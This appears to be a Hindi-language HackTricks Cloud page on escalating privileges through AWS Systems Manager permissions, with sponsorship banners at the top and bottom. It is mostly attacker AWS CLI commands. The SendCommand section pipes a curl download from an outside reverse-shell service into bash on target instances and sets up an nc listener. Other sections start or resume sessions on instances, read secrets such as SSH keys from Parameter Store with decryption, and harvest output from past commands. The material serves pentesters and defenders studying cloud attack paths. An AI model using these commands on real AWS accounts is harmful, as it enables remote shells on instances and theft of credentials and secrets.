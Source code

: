 # AWS - SSM विशेषाधिकार

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण को देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा एकल [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।**
* **अपने हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PR जमा करके।

</details>

## SSM

SSM के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

**`ssm:SendCommand`** अनुमति वाले एक हमलावर को **Amazon SSM एजेंट चलाने वाले इंस्टेंसेज़ में कमांड चला सकते हैं** और उसके अंदर चल रहे IAM रोल को **क्षति पहुंचा सकते हैं**।
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"

# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**संभावित प्रभाव:** SSM एजेंट चल रहे इंस्टेंसेज के साथ जुड़े EC2 IAM रोल्स में सीधी प्रवेश प्राप्त करना।

### `ssm:StartSession`

**`ssm:StartSession`** अनुमति वाले एक हमलावर इंस्टेंसेज में **SSH जैसा सत्र शुरू कर सकता है** और इसके अंदर चल रहे IAM रोल को **क्षति पहुंचा सकता है**।
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
**प्रभाव:** SSM एजेंट्स के साथ चल रहे EC2 IAM रोल्स में सीधी प्रवेश मिलेगा।

#### ECS में प्रवेश

जब **ECS tasks** **`ExecuteCommand` सक्षम** होते हैं, तो पर्याप्त अनुमतियों वाले उपयोगकर्ता `ecs execute-command` का उपयोग करके कंटेनर के अंदर **एक कमांड को निष्पादित** कर सकते हैं।\
[**दस्तावेज़ीकरण**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) के अनुसार, यह "एक्ज़ेक्यूट" कमांड को प्रारंभ करने के लिए आपके उपयोग करने वाले उपकरण और SSM सेशन मैनेजर के बीच एक सुरक्षित चैनल बनाकर किया जाता है।\
इसलिए, `ssm:StartSession` अनुमति वाले उपयोगकर्ता केवल इस विकल्प के साथ सक्षम किए गए ECS tasks के अंदर एक शैल मिल सकेंगे, बस निम्नलिखित को चलाकर:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (55).png>)

**संभावित प्रभाव:** `ExecuteCommand` सक्षम किए गए चल रहे tasks के साथ जुड़े `ECS` IAM रोल्स में सीधी प्रवेश.

### `ssm:ResumeSession`

**`ssm:ResumeSession`** अनुमति वाले एक हमलावर को अनुमति होती है कि वह अमेज़ॅन SSM एजेंट चल रहे इंस्टेंस में एक डिस्कनेक्टेड SSM सत्र स्थिति में एक SSH जैसा सत्र फिर से शुरू कर सके और उसके अंदर चल रहे IAM रोल को प्रभावित कर सके.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**पोटेंशियल प्रभाव:** SSM एजेंट्स चल रहे होने और डिस्कनेक्टेड सत्रों के साथ चल रहे EC2 IAM रोल्स को सीधे प्राइविलेज़ एस्केलेशन करने की संभावना।

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

उल्लेखित अनुमतियों के साथ एक हमलावर SSM पैरामीटर की सूची बना सकेगा और उन्हें साफ-पाठ में पढ़ सकेगा। इन पैरामीटर में आप अक्सर एसएसएच कुंजी या एपीआई कुंजी जैसी संवेदनशील जानकारी पाएंगे।
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**संभावित प्रभाव:** पैरामीटर्स में संवेदनशील जानकारी खोजें।

### `ssm:ListCommands`

इस अनुमति के साथ एक हमलावर्ती सभी **कमांड** सूची बना सकता है और उम्मीदवार संवेदनशील जानकारी को उनमें से खोज सकता है।
```
aws ssm list-commands
```
**संभावित प्रभाव:** कमांड लाइन्स में संवेदनशील जानकारी खोजें।

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

इन अनुमतियों के साथ एक हमलावर सभी भेजे गए **कमांड** की सूची बना सकता है और उत्पन्न **आउटपुट** को पढ़ सकता है, जिसमें संभावित रूप से **संवेदनशील जानकारी** मिल सकती है।
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**पोटेंशियल प्रभाव:** कमांड लाइन के आउटपुट में संवेदनशील जानकारी खोजें।

### Codebuild

आप सीएसएम का उपयोग करके एक कोडबिल्ड परियोजना में भी प्रवेश कर सकते हैं जो निर्माण हो रही है:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **पीईएएस की नवीनतम संस्करण देखना चाहते हैं या पीडीएफ में हैकट्रिक्स डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक पीईएएस और हैकट्रिक्स स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**द पीईएएस फैमिली**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा एकल [**एनएफटी**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** पर फॉलो करें।**
* **अपने हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में पीआर जमा करके।

</details>
